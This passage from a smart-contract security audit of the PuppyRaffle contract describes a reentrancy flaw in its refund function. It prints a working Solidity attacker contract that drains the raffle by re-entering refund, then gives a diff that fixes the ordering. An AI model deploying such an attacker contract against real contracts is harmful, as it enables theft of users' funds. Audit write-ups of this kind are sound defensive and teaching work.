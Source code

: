 \pagebreak

- Attacker contract:

```javascript
contract AttackReentrant {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

```

\pagebreak
**Recommended Mitigation:**<br />

- Change the place of where the event is emitted and where the state change is happening to avoid an reentrancy attack on the `refund` function.

```diff
    function refund(uint256 playerIndex) public {
        // @audit it also have a MEV attack in this function, front running the transaction
        address playerAddress = players[playerIndex];
        require(
            playerAddress == msg.sender,
            "PuppyRaffle: Only the player can refund"
        );
        require(
            playerAddress != address(0),
            "PuppyRaffle: Player already refunded, or is not active"
        );

+        // @audit changing the event and state change place to avoid a re entrancy attack
+       emit RaffleRefunded(playerAddress);
+       players[playerIndex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
    }

```
